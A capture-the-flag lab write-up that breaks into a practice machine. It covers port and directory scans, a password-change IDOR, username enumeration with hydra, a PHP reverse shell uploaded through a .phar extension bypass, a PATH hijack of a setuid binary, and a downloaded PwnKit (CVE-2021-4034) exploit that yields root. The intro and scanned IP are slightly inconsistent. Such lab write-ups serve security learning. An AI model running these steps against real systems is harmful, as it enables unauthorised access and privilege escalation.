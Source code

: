 ## CTF 03
> Capture The Flag.
> 
> IP: 192.168.10.16
> 
> The flag is stored in the flag.txt file.

> Capture The Flag.
> 
> IP: 192.168.10.16
> 
> The flag is stored in the root.txt file.

### Scanning
As a first step, all open ports are scanned.

```bash
$ nmap -sV -Pn 192.168.10.15 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

The scan shows that there are two running services, a webserver and SSH. The webserver is now scanned using gobuster.

```bash
$ gobuster dir -u http://192.168.10.15 -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

With gobuster we found the interesting discovery of the "upload" directory which opens the possibility to maybe upload a file to the machine.

### Registering
In a browser the website is opened and an account with the following data is created.

```
username: pascal
email: pascal@bosym.de
password: pascal
```

![Register an account](ctf3/register.png)

### Changing passwords
Using the authenticated account and burbsuite, we manage to change the password of other users by changing the id in the post request using burp. Changing the password of user 1 and 2, since our account is 3.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

Now to find the corresponding usernames, we bruteforce creating new users using hydra. If the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root 192.168.10.15 http-post-form
	"/register.php:username=^USER^&password=^USER^
	&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: GUEST   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```

With the output the username should either be `admin` or `GUEST`.

With this information, we login with `admin:root` and discovered that you can upload a file to the server.

### Reverse shell
The upload field shows an error, if a file without a correct ending (jpg, png, gif) is uploaded.

> Sorry , Allow Ex : jpg,png,gif

Weirdly enough, it works with `.phar`, which is bascially a `.php` script. So we upload a php reverse shell and connect it to the attacker machine.

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

We found that there are interesting files, which are only readable to `john`. Also there is a `toto` binary file. Using `strings toto`, we can see that the calls `setgid`, `setuid` and `system` are being used. When executed the output is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

So it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

So we change the PATH variable, create a "fake" `id` (which executes `bash`), execute it and change the PATH back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:
	/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

Now we can login via ssh with `john:root123` using `ssh john@192.168.10.16` to close the reverse shell.


### Privilege escalation

With "john" as user, run linpeas to search for ways to escalate privilege.

The logs show a possibility for CVE-2021-4034.

Since gcc and make are available, we download the [PoC for PwnKit](https://github.com/arthepsy/CVE-2021-4034), compile and run it.

```bash
john@darkhole:~$ wget https://raw.githubusercontent.com/arthepsy/
	CVE-2021-4034/main/cve-2021-4034-poc.c
2022-06-14 16:24:48 (116 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]

john@darkhole:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc

john@darkhole:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1001(john)

# ls -lah /root
total 44K
drwx------  6 root root 4.0K Jul 17  2021 .
drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
-rw-------  1 root root 3.0K Jun 14 15:29 .bash_history
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Jul 17  2021 .cache
drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
-rw-------  1 root root   18 Jul 15  2021 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 15  2021 .ssh
-rw-r--r--  1 root root   44 May 15 15:37 root.txt
drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap

# cat /root/root.txt
cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}
```